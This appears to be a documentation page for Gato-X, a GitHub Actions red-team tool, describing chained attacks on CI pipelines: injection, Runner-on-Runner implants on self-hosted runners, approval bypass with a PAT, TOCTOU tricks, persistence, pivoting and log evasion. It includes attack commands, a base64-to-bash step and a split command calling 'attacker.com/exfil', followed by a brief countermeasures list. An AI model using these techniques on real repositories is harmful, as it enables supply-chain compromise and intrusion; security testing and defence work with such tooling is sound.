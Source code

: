# Complex Attack Scenarios

This page describes advanced attack techniques and scenarios that Gato-X can help execute or defend against.

> **Warning**: These techniques should only be used with proper authorization and for ethical security research purposes.

## Chaining Multiple Vulnerabilities

Many real-world attacks involve chaining multiple vulnerabilities together to achieve the ultimate objective.

### Example: From PR Comment to Self-Hosted Runner

1. **Initial Access**: Exploit an Actions Injection vulnerability in a workflow triggered by issue comments
2. **Privilege Escalation**: Use the injected code to modify workflow files in the repository
3. **Persistence**: Deploy a Runner-on-Runner implant on a self-hosted runner
4. **Lateral Movement**: Use the compromised runner to access other systems on the network

## Custom Runner-on-Runner (RoR) Deployment

Gato-X supports deploying RoR through various methods beyond the standard fork pull request approach.

### Using Custom Workflow via Push Trigger

If you have write access to a repository that uses self-hosted runners:

```bash
gato-x a --workflow --target ORG/REPO --custom-file custom_ror_workflow.yml
```

Where `custom_ror_workflow.yml` contains a workflow that deploys the RoR implant.

### Using Workflow Dispatch with Limited Permissions

If you have a PAT with only the `repo` scope:

1. Generate the RoR payload:
   ```bash
   gato-x a --payload-only --target-os linux --target-arch x64 --c2-repo MyOrg/C2Repo
   ```

2. Create a repository with a workflow that uses the payload

3. Trigger the workflow:
   ```bash
   curl -X POST -H "Authorization: token $GH_TOKEN" \
     -H "Accept: application/vnd.github.v3+json" \
     https://api.github.com/repos/MyOrg/MyRepo/actions/workflows/deploy_ror.yml/dispatches \
     -d '{"ref":"main"}'
   ```

## Bypassing Approval Requirements

In some cases, you may be able to bypass approval requirements for workflows from forks.

### Using a PAT with the `repo` Scope

If you have a PAT with the `repo` scope for a repository:

1. Fork the repository
2. Create a malicious workflow in your fork
3. Submit a pull request
4. Use the PAT to approve the workflow run:
   ```bash
   curl -X POST -H "Authorization: token $GH_TOKEN" \
     -H "Accept: application/vnd.github.v3+json" \
     https://api.github.com/repos/TargetOrg/TargetRepo/actions/runs/12345/approve
   ```

### Exploiting TOCTOU in Approval Workflows

Some approval workflows may be vulnerable to TOCTOU attacks:

1. Submit a benign pull request
2. Wait for approval
3. After approval but before execution, modify the pull request to include malicious code
4. The approved workflow will run the modified code

## Advanced Self-Hosted Runner Attacks

### Targeting Specific Runner Labels

If you know that certain runners have specific capabilities or access:

```bash
gato-x a --runner-on-runner --target ORG/REPO --target-os linux --target-arch x64 --labels production database
```

This targets runners with both the "production" and "database" labels.

### Persistent Access to Ephemeral Runners

For ephemeral runners that are destroyed after each job:

1. Deploy the RoR implant with the `--keep-alive` flag
2. Use the implant to establish persistence through other means:
   - Create cron jobs
   - Modify startup scripts
   - Deploy additional backdoors

### Network Pivoting

Once you have access to a self-hosted runner, you can use it to pivot to other systems:

1. Use the interactive shell to perform network reconnaissance
2. Deploy network tunneling tools
3. Access internal services not exposed to the internet

## Defense Evasion Techniques

### Avoiding Detection in Logs

1. Use base64 encoding for commands:
   ```yaml
   run: echo "ZWNobyAiaGVsbG8gd29ybGQi" | base64 -d | bash
   ```

2. Split malicious commands across multiple steps

3. Use environment variables to store parts of commands:
   ```yaml
   env:
     CMD_PART1: "curl -s"
     CMD_PART2: "http://attacker.com/exfil"
   run: $CMD_PART1 $CMD_PART2
   ```

### Hiding Malicious Workflows

1. Use non-obvious file names for workflows
2. Place workflows in nested directories
3. Use workflow files that appear benign but contain hidden malicious code

## Countermeasures

To defend against these advanced attacks:

1. Implement strict branch protection rules
2. Require approval for all workflows from forks
3. Use ephemeral runners in isolated environments
4. Implement network segmentation for runners
5. Monitor workflow runs for suspicious activity
6. Regularly audit workflow files and permissions
7. Use the principle of least privilege for all tokens and permissions

